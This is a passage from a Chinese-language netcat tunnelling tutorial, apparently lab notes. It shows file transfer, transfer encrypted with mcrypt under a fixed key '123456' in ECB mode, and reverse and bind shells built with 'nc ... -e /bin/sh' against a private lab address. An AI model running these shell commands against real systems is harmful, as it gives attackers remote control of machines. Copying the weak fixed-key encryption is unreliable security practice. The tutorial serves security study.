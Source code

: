 客户端: `nc  -n 192.168.47.134 > result.txt` 

在客户端查看传送过来的result.txt文件

<img src="隧道应用/image-20221105232249836.png" alt="image-20221105232249836" style="zoom:67%;" />	



### 3.加密传输文件

由于LINUX系统默认没有安装mcrypt库, 需先安装: `apt-get install mcrypt`

服务端: `nc -lp 4444 | mcrypt --flush -Fbqd -a rijndael-256 -m ecb -k 123456 > result.txt`

客户端: `mcrypt --flush -Fbq -a rijndael-256 -m ecb -k 123456 < result.txt | nc -nv 192.168.47.134 4444 -q 1`	

> -k: 指定加密时所用到的密码, 若不指定, 输入回车时需要输入加密密码

<img src="隧道应用/image-20221106151706533.png" alt="image-20221106151706533" style="zoom:67%;" />	



## 正向/反向Shell

### 反向Shell	

如下图所示, 目标主机反向连接攻击机的4444端口, -e选项将Bash Shell发送给攻击机, 若目标主机为windows, 需设置成`-e cmd`

![image-20221106162120338](隧道应用/image-20221106162120338.png)	



先在攻击机开启监听4444端口: `nc -lvp 4444`	

![image-20221106161802417](隧道应用/image-20221106161802417.png)	



在目标主机反弹Shell: `nc 192.168.47.134 4444 -e /bin/sh`

![image-20221106161846933](隧道应用/image-20221106161846933.png)	



再返回攻击机查看反弹回来的shell, 并输入`ifconfig`命令进行测试

![image-20221106162013459](隧道应用/image-20221106162013459.png)		



### 正向Shell	

![image-20221106162329078](隧道应用/image-20221106162329078.png)	



先在目标主机创建监听, 并把一个bash shell绑定到4444端口

```
nc -lvp 4444 -e /bin/sh
```
